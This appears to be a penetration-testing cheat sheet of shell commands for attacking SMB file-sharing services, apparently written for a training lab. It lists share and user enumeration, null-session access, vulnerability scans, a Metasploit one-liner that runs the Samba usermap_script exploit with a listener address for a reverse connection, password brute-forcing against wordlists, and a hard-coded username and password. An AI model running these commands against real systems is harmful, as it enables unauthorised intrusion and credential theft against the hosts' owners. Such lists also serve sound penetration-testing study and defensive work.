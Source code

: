 ```
	nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111
	smbclient -L \\\\10.11.1.111\\

# Check null sessions
smbmap -H 10.11.1.111
rpcclient -U "" -N 10.11.1.111
smbclient //10.11.1.111/IPC$ -N

# Exploit null sessions
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect with a user and password

smbclient -U "fox%iparalipomenidellabatracomiomachia"  //192.168.123.157/

# Connect to share anonymously
smbclient \\\\10.11.1.111\\<share>
smbclient //10.11.1.111/<share>
smbclient //10.11.1.111/<share\ name>
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

```